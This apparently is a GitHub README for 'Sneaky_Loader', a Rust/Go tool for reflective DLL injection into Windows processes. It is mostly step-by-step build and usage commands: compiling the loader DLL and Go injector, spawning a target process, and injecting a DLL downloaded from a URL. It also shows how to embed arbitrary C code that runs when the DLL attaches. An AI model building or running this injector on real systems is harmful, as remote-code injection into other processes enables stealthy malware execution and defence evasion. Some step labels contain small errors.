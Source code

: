 # Sneaky_Loader
Custom loader - Rust/Go Dll Reflective Injection - Supports 32/54 bits but not ARM for the moment

# How to use it ?

1. Clone the repo
```
git clone <repo>
```

2. x32 - Compile the 32 bits dll
```
cd RustyLoader
rustup target add i686-pc-windows-msvc
cargo build --target=i686-pc-windows-msvc --release
```

2. x64 - Compile the 32 bits dll
```
cd RustyLoader
cargo build --release
```

3. x32 - Copy the compiled dll
```
Copy-Item .\target\i686-pc-windows-msvc\release\rusty_inject.dll -Destination ..\GogoInjector\
```

3. x64 - Copy the compiled dll
```
Copy-Item .\target\release\rusty_inject.dll -Destination ..\GogoInjector\
```

4. x32 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="386"
go build .\inject.go
```

4. x64 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="amd64"
go build .\inject.go
```

5. Test it

x32 : 
Spawn a 32 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\SysWOW64\cmd.exe" -PassThru
$process.Id
```

x64 : 
Spawn a 64 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\System32\cmd.exe" -PassThru
$process.Id
```

Inject the dll :

Usage :
```
.\inject.exe 
  -local string
        Local file path
  -pid int
        Process ID
  -url string
        URL of the file
```

Example
```
.\inject.exe -pid  21108 -url http://127.0.0.1:8080/rusty_inject.dll
```
![Alt text](/assets/injected2.png)


6. Inject C program

- Add your C code in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
```

- Compile as object file (NOT useful if using build.rs specified later. Cf https://doc.rust-lang.org/cargo/reference/build-scripts.html) :
```
gcc -c c_code.c -o target/release/c_code.o
```

- Compile as static library (NOT useful if using build.rs specified later) :
```
ar rcs target/release/libcdll.a target/release/c_code.o
```

- Modify Cargo.toml
```
[dependencies]
ntapi = "0.4.0"
winapi = { version = "0.3", features = ["winuser"] }

[build-dependencies]
cc = "1.0"

[build]
rustc-flags = "-L native=target/release/ -l static:cdll"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
|-- build.rs
```

Content :
```
fn main() {
    cc::Build::new()
        .file("c_code.c")
        .compile("cdll");
}
```
- Modify lib.rs :

```
extern crate winapi;
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

# How to use the debug version ?

The directory debug_RustyLoader contains a verbose version of the RustyLoader. 
It works in a slightly different way :

	- It is an exe, not a dll. 
	- It operates as an injector and also a loader.
	- It reads the dll named debug_dll.dll in /dll_to_inject .
	- It loads the raw dll in the self process memory and perfoms all the loading operations as RustyLoader would do but with verbose printed logs. Once loaded, it calls dllmain.

Put the dll to be tested in the directory debug_RustyLoader\dll_to_inject and name it debug_dll.dll.
```
cd debug_RustyLoader
cargo run --target=i686-pc-windows-msvc
```
![Alt text](/assets/injected_verbose.png)